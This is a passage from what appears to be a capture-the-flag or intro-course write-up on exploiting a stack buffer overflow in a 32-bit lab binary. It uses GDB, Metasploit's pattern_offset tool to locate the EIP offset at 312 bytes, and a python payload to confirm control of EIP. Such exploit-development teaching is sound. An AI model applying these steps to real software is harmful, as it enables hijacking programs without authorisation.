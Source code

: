 If the program simply accepted input via the command-line, we could just paste the string alongside the `run $()` command in `GDB`. Since we're dealing with a program that has interactive input, there are a few ways to tackle it. Personally, I like to pass the strings via input redirection into the argument parameter in `GDB`. `GDB` knows to pass this into the first input that it detects when the program is ran.

```
(gdb) set args < offset.txt
(gdb) run
Starting program: /-/ccso_intro_2025/overflow/overflow < offset.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter a string:

Program received signal SIGSEGV, Segmentation fault.
0x41346b41 in ?? ()
(gdb)
```

You can see that we encountered the same segmentation fault which indicates that have overwritten memory that we shouldn't have. Let's take a look at the EIP register to view what value is currently has.

```
(gdb) info registers eip
eip            0x41346b41          0x41346b41
```

We'll then take this value and plug it into `pattern_offset`.

```
└─$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x41346b41 -l 1000
[*] Exact match at offset 312
```

This tells us that the exact offset of the EIP relative to our overflow is at offset `312`. We know that the buffer size for the input is `300`, meaning we just have 12 bytes after we fill the buffer to reach the EIP.

However, that's when we reach the address. We'll still need to flood the EIP with values - in which `x86` memory address are 4 bytes long. We'll extend our buffer value to `316`.

Let's generate a payload to confirm this:

```
└─$ python2 -c 'print "\x42" * 312 + "\x43" * 4' > offset_check.txt

(gdb) set args < offset_check.txt
(gdb) run
Starting program: /-/ccso_intro_2025/overflow/overflow < offset_check.txt
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter a string:

Program received signal SIGSEGV, Segmentation fault.
0x43434343 in ?? ()
(gdb) info registers eip
eip            0x43434343          0x43434343
```
